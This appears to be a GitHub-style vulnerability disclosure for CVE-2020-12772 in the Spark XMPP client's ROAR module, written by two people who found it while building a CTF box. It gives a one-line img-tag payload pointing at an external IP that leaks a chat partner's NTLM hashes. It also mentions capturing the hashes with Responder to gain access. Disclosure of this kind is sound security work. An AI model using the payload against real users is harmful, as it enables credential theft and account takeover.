 # CVE-2020-12772

## Description

When [@4nqr34z](https://twitter.com/4nqr34z) and myself, [@theart42](https://twitter.com/theart42), were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our privileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer has been notified and a fix is underway
